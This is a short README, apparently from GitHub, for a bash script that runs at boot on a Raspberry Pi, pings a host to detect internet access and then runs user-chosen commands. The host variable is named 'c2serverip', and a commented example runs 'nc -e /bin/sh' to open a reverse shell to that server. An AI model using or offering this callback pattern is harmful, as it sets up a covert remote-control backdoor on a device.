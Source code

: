
# An Easy way to check if you have access to the internet at all time.

This infinite loop can be added to your rasberryPi to run once the PI is powered On.   
It keeps checking if it is connected, and as it finds internet, it run some predefined commands.

This can run as a standalone code or part of another code.

```bash
#!/bin/bash
connection="offline"
c2serverip=8.8.8.8
retry=5

while true; do
ping -c 1 $c2serverip 2>&1 >/dev/null

if [ $? -eq 0 ]
then
        if [ $connection == "offline" ]
        then
                connection="online"
                echo "PUT your code here"
#Put any code here to run once you are online.      
# e.g.      
#nc -e /bin/sh $c2serverip 80      
        else
                echo "already online retring in "$retry "seconds"
                sleep $retry
        fi

else
        echo "we are offline"
        connection="offline"
fi
done
```